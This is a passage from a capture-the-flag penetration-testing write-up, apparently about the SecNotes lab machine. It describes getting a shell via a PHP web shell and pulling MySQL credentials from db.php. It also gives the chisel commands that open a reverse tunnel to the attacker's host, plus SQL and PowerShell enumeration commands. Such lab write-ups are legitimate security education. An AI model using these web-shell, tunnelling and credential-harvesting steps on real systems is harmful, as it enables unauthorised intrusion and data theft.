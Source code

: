 ### Shell as tyler

Interestingly when you put web shell php script it runs it as `tyler` user.

![image.png](image%2016.png)

Checking open ports I see `MySQL` running:

![image.png](image%2017.png)

And reading `db.php` I see database credentials:

![image.png](image%2018.png)

Let’s port forward `3306` and connect to it using these credentials with `chisel`.

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 51234
.\chisel.exe client 10.10.14.23:51234 R:3306:127.0.0.1:3306
```

```bash
mysql -u secnotes -h 127.0.0.1 -p
```

```sql
SHOW databases;
use secnotes;
show tables;
show columns from users;
select * from users;
```

![image.png](image%2019.png)

![image.png](image%2020.png)

Nothing interesting here.

I found `wsl` and `bash`:

```powershell
where /R c:\windows bash.exe
```

![image.png](image%2021.png)

```powershell
where /R c:\windows wsl.exe
```

![image.png](image%2022.png)

I tried executing them to get into Linux shell, but it failed likely because of tty. I tried navigating to `LocalState\rootfs`, but still failed:

```powershell
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | Out-String -Width 4096
```
